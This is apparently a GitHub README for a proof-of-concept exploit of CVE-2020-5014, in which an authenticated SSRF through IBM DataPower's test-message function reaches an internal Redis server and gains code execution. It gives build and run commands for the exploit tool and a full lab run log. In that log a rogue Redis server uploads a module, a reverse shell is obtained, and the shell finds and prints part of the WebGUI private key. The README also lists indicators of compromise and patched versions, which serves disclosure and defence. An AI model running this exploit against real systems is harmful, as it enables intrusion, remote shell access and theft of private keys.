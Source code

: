 # datapower-redis-rce-exploit (CVE-2020-5014)
A POC for IBM DataPower Authenticated Redis RCE Exploit abusing the "Test Message" Function.

![poc_demo](poc_demo.jpeg)

[Full explination and demo on Youtube](https://youtu.be/85V2ZL3IwQc)

[Blog post on tomcope.com](https://tomcope.com/exploit/2020/10/21/ibm-datapower-exploit-cve-2020-5014.html)

## Explanation

Using the DataPower "Send a Test Message" function available through a authenticated session to the DataPower WebGUI, it is possible to perform a SSRF attack against DataPowers internal Redis Server. The internal Redis server is password protected but appears to use a hardcoded password. This can then be combined with a pre-existing Redis RCE vulnerability to execute arbitrary code as the `drouter` user inside the DataPower underlying Linux operating system.

## Quick Start

1. Clone this repo
2. Compile the module:
   * `cd RedisModulesSDK/dpredisshell/`
   * `make`
3. Compile the Golang code
   * `go build`
4. Check the flags
   * `./datapower-redis-rce-exploit -h`
5. Run the exploit
   * `./datapower-redis-rce-exploit -dpip 1.2.3.4 -dpredismodule RedisModulesSDK/dpredisshell/dpredisshell.so -dpredispasswd xxx -fakeredisip 5.6.7.8`

## Example

Below is a worked example running DataPower via Docker and the exploit locally through localhost:

1. `docker run -it -e DATAPOWER_ACCEPT_LICENSE=true -e DATAPOWER_INTERACTIVE=true -e DATAPOWER_WORKER_THREADS=4 --network='host' ibmcom/datapower:10.0.1.1`
2. Login to DataPower with Username `admin` and password `admin`
3. Configure with WebGUI:
```
idg# config
Global mode
idg(config)# web-mgmt
Modify Web Management Service configuration

idg(config web-mgmt)# admin-state enabled
idg(config web-mgmt)# exit
idg(config)# write mem
Overwrite previously saved configuration? Yes/No [y/n]: y
Configuration saved successfully.
idg(config)# exit
idg# 
 ```
 4. Check the WebUI is up:
```
idg# show web-mgmt

web-mgmt [up] 
--------
 admin-state enabled 
 ip-address 0.0.0.0 
 port 9090 
 save-config-overwrite on 
 idle-timeout 600 Seconds
 acl web-mgmt  [up]
 ssl-config-type server 
 enable-sts on 

idg# 
```
5. Open a new terminal window
6. Clone this repo
   * `git clone https://github.com/copethomas/datapower-redis-rce-exploit`
7. Compile the module:
   * `cd RedisModulesSDK/dpredisshell/`
   * `make`
8. Compile the Golang code
   * `cd ../../`
   * `go build`
9.  Load the internal redis password into your shell. (Read the [Explanation](##explanation) for more details)
```
$ read DPREDISPASSWD
apples
$ echo $DPREDISPASSWD
apples
```
10. Run the exploit:
```
$ ./datapower-redis-rce-exploit -dpip 127.0.0.1 -dpport 9090 -dpredismodule RedisModulesSDK/dpredisshell/dpredisshell.so -dpredispasswd $DPREDISPASSWD -dpredisport 16379 -dpwebguipassword "admin" -dpwebguiuser "admin" -fakeredisip 127.0.0.1 -fakeredisport 8888
Main      - 2020/10/18 23:34:29 datapower-redis-rce-exploit - Created by Thomas Cope
Main      - 2020/10/18 23:34:29 Starting Rogue Redis Server...
Main      - 2020/10/18 23:34:29 Attempting to Login to Datapower...
FakeRedis - 2020/10/18 23:34:29 Starting Fake Redis Server on 127.0.0.1:8888
FakeRedis - 2020/10/18 23:34:29 Online and Ready!
Main      - 2020/10/18 23:34:29 Datapower Credentials Valid!
Main      - 2020/10/18 23:34:29 Datapower Login Token = JlkIp5wAvuQfSh5+cY49BovA.5
Main      - 2020/10/18 23:34:29 Exchanging Login token for auth cookie...
Main      - 2020/10/18 23:34:29 Got login Cookie OK! - [ibmwdp=1wBXDLzY9XdTNz4aD5+JQspc.5; Path=/; HttpOnly; Secure]+
Main      - 2020/10/18 23:34:29 Datapower Login Complete!
Main      - 2020/10/18 23:34:29 Attempting Redis exploit via Datapower 'Test Connection' ...
Main      - 2020/10/18 23:34:29 Performing Datapower 'Test Connection'...
FakeRedis - 2020/10/18 23:34:29 Accepting connection...
FakeRedis - 2020/10/18 23:34:29 Accepted Connection OK!
FakeRedis - 2020/10/18 23:34:29 Data : DatapowerRedis -> FakeRedis
FakeRedis - 2020/10/18 23:34:29 Data : DatapowerRedis <- FakeRedis
FakeRedis - 2020/10/18 23:34:29 Data : DatapowerRedis -> FakeRedis
FakeRedis - 2020/10/18 23:34:29 Data : DatapowerRedis <- FakeRedis
FakeRedis - 2020/10/18 23:34:29 Data : DatapowerRedis -> FakeRedis
FakeRedis - 2020/10/18 23:34:29 Data : DatapowerRedis <- FakeRedis
FakeRedis - 2020/10/18 23:34:29 Data : DatapowerRedis -> FakeRedis
FakeRedis - 2020/10/18 23:34:29 Data : DatapowerRedis <- FakeRedis
Main      - 2020/10/18 23:34:29 Datapower 'Test Connection' Finished OK
Main      - 2020/10/18 23:34:29 Datapower 'Test Connection' sent OK, waiting for redis connection...
FakeRedis - 2020/10/18 23:34:29 Data : DatapowerRedis -> FakeRedis
FakeRedis - 2020/10/18 23:34:29 Data : DatapowerRedis <- FakeRedis
FakeRedis - 2020/10/18 23:34:29 Data : DatapowerRedis -> FakeRedis
FakeRedis - 2020/10/18 23:34:29 Uploading module...
FakeRedis - 2020/10/18 23:34:29 Upload Complete!
Main      - 2020/10/18 23:34:29 Payload has been delivered to Datapower internal redis!
Main      - 2020/10/18 23:34:29 Performing clean up...
Main      - 2020/10/18 23:34:29 Performing Datapower 'Test Connection'...
FakeRedis - 2020/10/18 23:34:29 Error reading data from network connection: read tcp 127.0.0.1:8888->127.0.0.1:44207: read: connection reset by peer - (This is expected)
FakeRedis - 2020/10/18 23:34:29 Connection Closed
Main      - 2020/10/18 23:34:30 Datapower 'Test Connection' Finished OK
Main      - 2020/10/18 23:34:30 Requesting Reverse Shell via Datapower 'Test Connection' ...
Main      - 2020/10/18 23:34:30 Waiting for Reverse Shell...
Main      - 2020/10/18 23:34:30 Performing Datapower 'Test Connection'...
FakeRedis - 2020/10/18 23:34:30 Accepting connection...
Main      - 2020/10/18 23:34:30 Got Reverse Shell!
Main      - 2020/10/18 23:34:30 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
id
uid=1000(drouter) gid=1000(drouter) groups=1000(drouter)
ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
drouter        1       0  6 22:00 pts/0    00:02:15 /opt/ibm/datapower/root/drouter
drouter       24       1  0 22:00 pts/0    00:00:06 QuotaEnforcement unix:/opt/ibm/datapower/drouter/ramdisk2/sidecar-QuotaEnforcement-0x7f4f38c6e2c8 QuotaEnforcement
drouter       27      24  0 22:00 pts/0    00:00:05 /opt/ibm/datapower/root/dp-redis-server 127.0.0.1:16379
drouter       28      24  0 22:00 pts/0    00:00:08 /opt/ibm/datapower/root/dp-redis-sentinel 127.0.0.1:26379 [sentinel]
drouter       40       1  0 22:00 pts/0    00:00:05 dpmon -F dpmon -T -s 1 -c 900 -U /opt/ibm/datapower/drouter/temporary/dpmon/ -m /opt/ibm/datapower/drouter/temporary/dpmon/ -i 8 -M 31457280 -Z UTC -B 0
drouter       61      27  0 22:34 pts/0    00:00:00 [sh]
drouter       63      61  0 22:34 pts/0    00:00:00 
find / -name webgui-privkey.pem 2>/dev/null
/opt/ibm/datapower/root/secure/usrcerts/webgui-privkey.pem
head -2 /opt/ibm/datapower/root/secure/usrcerts/webgui-privkey.pem
-----BEGIN PRIVATE KEY-----
MIIEvAIBADANBgkqhkiG9w0BAQEFAASCBKYwggSiAgEAAoIBAQDYFBod9TmWZLKT
```
## IOCs

During the exploit DataPower will log multiple `url-open` errors with the internal redis url. This is due to redis not replying in the XML format expected by DataPower.

```
18:22:55	network	error	130	request	  	0x80e00040	xmlfirewall (map): url-open: Remote error on url 'http://127.0.0.1:16379/'
```

## Fix / Patch

Fixed in version 10.0.1.2 and 2018.4.1.15

- https://www.ibm.com/support/pages/node/6426789
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5014

## Links and Thanks

* https://github.com/n0b0dyCN/redis-rogue-server - For the Python Version of this Exploit and the `exp.c` Redis Module
* https://github.com/RicterZ/RedisModules-ExecuteCommand - For the Original Redis Module
* https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf - For the discovery of the Redis RCE

Original discovery made by Me (Thomas Cope) @ October 21, 2020 - Reported via Hackerone to IBM

